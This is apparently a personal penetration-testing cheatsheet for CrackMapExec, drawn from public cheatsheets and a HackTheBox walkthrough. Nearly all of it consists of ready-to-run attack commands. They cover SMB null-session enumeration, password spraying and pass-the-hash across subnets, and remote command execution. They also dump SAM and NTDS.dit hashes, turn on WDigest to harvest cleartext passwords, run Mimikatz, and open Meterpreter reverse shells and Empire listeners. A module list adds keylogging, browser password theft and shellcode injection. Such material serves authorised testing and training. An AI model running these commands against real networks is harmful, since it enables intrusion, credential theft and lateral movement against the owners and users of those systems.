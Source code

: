 # Crackmapexec Cheatsheet
Contains the submodules
-   [Impacket](https://github.com/CoreSecurity/impacket)
-   [Pywinrm](https://github.com/diyan/pywinrm)
-   [Pywerview](https://github.com/the-useless-one/pywerview)
-   [PowerSploit](https://github.com/PowerShellMafia/PowerSploit)
-   [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)
-   [Invoke-Vnc](https://github.com/artkond/Invoke-Vnc)
-   [Mimikittenz](https://github.com/putterpanda/mimikittenz)
-   [NetRipper](https://github.com/NytroRST/NetRipper)
-   [RandomPS-Scripts](https://github.com/xorrior/RandomPS-Scripts)
-   [SessionGopher](https://github.com/fireeye/SessionGopher)
-   [Mimipenguin](https://github.com/huntergregal/mimipenguin)

## Modules

```shell
-M spider_plus # spider share outputs json
```

## Connecting
```bash
crackmapexec smb $domain
crackmapexec smb $IP $IP-2
crackmapexec smb $IP-Range $IP-Range-More-Specific 
crackmapexec smb $Subnetmask
crackmapexec smb targets.txt
```

## Shares
Similar checklist from Ippsec to match the pentester use case of [[SMB-Recon-Cheatsheet]] `smbclient`, to enumerate specific configuration, but also Pentester are more *"finickity"*:

```bash
crackmapexec smb $IP --shares
crackmapexec smb $IP --shares -u ''
crackmapexec smb $IP --shares -u 'Test'
crackmapexec smb $IP --shares -u 'Test' -p ''
```

## Null sessions
```bash
crackmapexec smb $IP -u "" -p ""
```

With Null sessions Windows System that upgraded from 2003, anonymous authenication to grab password policy:
```bash
crackmapexec smb $IP -u '' -p '' --pass-pol
```
Account lockout threshold: 0 -> bruteforcing with [[Password-Attacks]] 

```bash
crackmapexec smb $IP  -u <user> -p <password>
```

## Spraying
#### Pass the hash against a subnet
```bash
# The LMHASH does not actually matter
crackmapexec smb $Subnetmask -u administrator -H 'LMHASH:NTHASH' --local-auth
crackmapexec smb $Subnetmask -u administrator -H 'NTHASH'
```

## Enumeration
#### Users
```bash
crackmapexec smb $IP -u '$foothold-account' -p '$password' --users
crackmapexec smb $IP -u '$foothold-account' -p '$password' --rid-brute
crackmapexec smb $IP -u '$foothold-account' -p '$password' --groups
crackmapexec smb $IP -u '$foothold-account' -p '$password' --local-users
crackmapexec smb $IP -u '$foothold-account' -p '$password' --shares
crackmapexec smb $IP -u '$foothold-account' -p '$password' --pass-pol
```

### Execution & Co
```bash
# CrackMapExec has 3 different command execution methods (in default order) : 
# - wmiexec --> WMI 
# - atexec --> scheduled task 
# - smbexec --> creating and running a service  
# Execute command through cmd.exe (admin privileges required) 
crackmapexec smb $ip -u Administrator -p 'P@ssw0rd' -x 'whoami'  
# Force the smbexec method 
crackmapexec smb $ip -u 'Administrator' -p 'PASS' -x 'net user Administrator /domain' --exec-method smbexec  
# Execute commands through PowerShell (admin privileges required) 
crackmapexec smb $ip -u Administrator -p 'P@ssw0rd' -X 'whoami'`
```

  

### Getting Credentials
```bash
# Dump local SAM hashes 
crackmapexec smb $ip -u 'Administrator' -p 'PASS' --local-auth --sam

# Enable or disable WDigest to get credentials from the LSA Memory 
crackmapexec smb $ip -u 'Administrator' -p 'PASS' --local-auth --wdigest enable 
crackmapexec smb $ip -u 'Administrator' -p 'PASS' --local-auth --wdigest disable  
# Then you just have to wait the user logoff and logon again 
# But you can force the logoff 
crackmapexec smb $ip -u 'Administrator' -p 'PASS' -x 'quser' 
crackmapexec smb $ip -u 'Administrator' -p 'PASS' -x 'logoff <sessionid>'

# Dump the NTDS.dit from DC using methods from secretsdump.py  
# Uses drsuapi RPC interface create a handle, trigger replication 
# and combined with additional drsuapi calls to convert the resultant  
# linked-lists into readable format 
crackmapexec smb $ip -u UserNAme -p 'PASSWORDHERE' --ntds  
# Uses the Volume Shadow copy Service 
crackmapexec smb $ip -u UserNAme -p 'PASSWORDHERE' --ntds vss  
# Dump the NTDS.dit password history smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --ntds-history`
```
 

### Using the database

```bash
# The database automatically store every hosts reaches by CME and all credentials with admin access 
$ cmedb  
# Using workspaces cmedb> workspace create test cmedb> workspace test  
# Access a protocol database and switch back 
cmedb (test)> proto smb 
cmedb (test)> back  
# List stored hosts 
cmedb> hosts  
# View detailed infos for a specific machine (including creds) cmedb> hosts <hostname>  
# Get stored credentials 
cmedb> creds  
# Get credentials access for a specific account 
cmedb> creds <username>  
# Using credentials from the database 
crackmapexec smb $ip -id <credsID>`
```
 

### Modules
```bash
# List available modules 
crackmapexec smb -L  
# Module information
crackmapexec smb -M mimikatz --module-info  
# View module options 
crackmapexec smb -M mimikatz --options  
# Mimikatz module 
crackmapexec smb $ip -u 'Administrator' -p 'PASS' --local-auth -M mimikatz 
crackmapexec smb $ip -u 'Administrator' -p 'PASS' -M mimikatz crackmapexec smb 192.168.215.104 -u Administrator -p 'P@ssw0rd' -M mimikatz -o COMMAND='privilege::debug'

[*] Get-ComputerDetails       Enumerates sysinfo 
[*] bloodhound                Executes the BloodHound recon script on the target and retreives the results to the attackers\' machine 
[*] empire_exec               Uses Empire\'s RESTful API to generate a launcher for the specified listener and executes it 
[*] enum_avproducts           Gathers information on all endpoint protection solutions installed on the the remote host(s) via WMI 
[*] enum_chrome               Decrypts saved Chrome passwords using Get-ChromeDump 
[*] enum_dns                  Uses WMI to dump DNS from an AD DNS Server 
[*] get_keystrokes            Logs keys pressed, time and the active window 
[*] get_netdomaincontroller   Enumerates all domain controllers 
[*] get_netrdpsession         Enumerates all active RDP sessions 
[*] get_timedscreenshot       Takes screenshots at a regular interval 
[*] gpp_autologin             Searches the domain controller for registry.xml to find autologon information and returns the username and password. 
[*] gpp_password              Retrieves the plaintext password and other information for accounts pushed through Group Policy Preferences. 
[*] invoke_sessiongopher      Digs up saved session information for PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP using SessionGopher 
[*] invoke_vnc                Injects a VNC client in memory 
[*] met_inject                Downloads the Meterpreter stager and injects it into memory 
[*] mimikatz                  Dumps all logon credentials from memory 
[*] mimikatz_enum_chrome      Decrypts saved Chrome passwords using Mimikatz 
[*] mimikatz_enum_vault_creds Decrypts saved credentials in Windows Vault/Credential Manager [*] mimikittenz               Executes Mimikittenz 
[*] multirdp                  Patches terminal services in memory to allow multiple RDP users [*] netripper                 Capture \'s credentials by using API hooking 
[*] pe_inject                 Downloads the specified DLL/EXE and injects it into memory 
[*] rdp                       Enables/Disables RDP 
[*] scuffy                    Creates and dumps an arbitrary .scf file with the icon property containing a UNC path to the declared SMB server against all writeable shares 
[*] shellcode_inject          Downloads the specified raw shellcode and injects it into memory [*] slinky                    Creates windows shortcuts with the icon attribute containing a UNC path to the specified SMB server in all shares with write permissions 
[*] test_connection           Pings a host 
[*] tokens                    Enumerates available tokens [*] uac                       Checks UAC status 
[*] wdigest                   Creates/Deletes the 'UseLogonCredential' registry key enabling WDigest cred dumping on Windows >= 8.1 
[*] web_delivery              Kicks off a Metasploit Payload using the exploit/multi/script/web_delivery module
```
 

### Getting shells

#### Metasploit
```bash
# First, set up a HTTP Reverse Handler 
msf > use exploit/multi/handler  
msf exploit(handler) > set payload windows/meterpreter/reverse_https 
msf exploit(handler) > set LHOST 192.168.10.3 msf exploit(handler) > set exitonsession false msf exploit(handler) > exploit -j  
# Met_Inject module 
crackmapexec smb $ip -u 'Administrator' -p 'PASS' --local-auth -M met_inject -o LHOST=YOURIP LPORT=4444` 
```
`
#### Empire
```bash
# Start RESTful API 
empire --rest --user empireadmin --pass gH25Iv1K68@^  
# First setup an Empire HTTP listener 
(Empire: listeners) > set Name test 
(Empire: listeners) > set Host $ip
(Empire: listeners) > set Port 9090 
(Empire: listeners) > set CertPath data/empire.pem 
(Empire: listeners) > run (Empire: listeners) > list  
# Start RESTful API # The username and password that CME uses to authenticate to Empire's RESTful API  
# Are stored in the cme.conf file located at ~/.cme/cme.conf 
empire --rest --user empireadmin --pass $password 
# Empire Module 
crackmapexec smb $ip -u Administrator -p PASSWORD --local-auth -M empire_exec -o LISTENER=CMETest
```

## References

[ivoidwarranties](https://www.ivoidwarranties.tech/posts/pentesting-tuts/cme/crackmapexec-cheatsheet/)
[haax9](https://cheatsheet.haax.fr/windows-systems/exploitation/crackmapexec/)
[haax9 -Github](https://github.com/Haax9)
[blackhatethicalhacking](https://www.blackhatethicalhacking.com/tools/crackmapexec/)
[Ippsec Blackfield HTB](https://www.youtube.com/watch?v=IfCysW0Od8w)
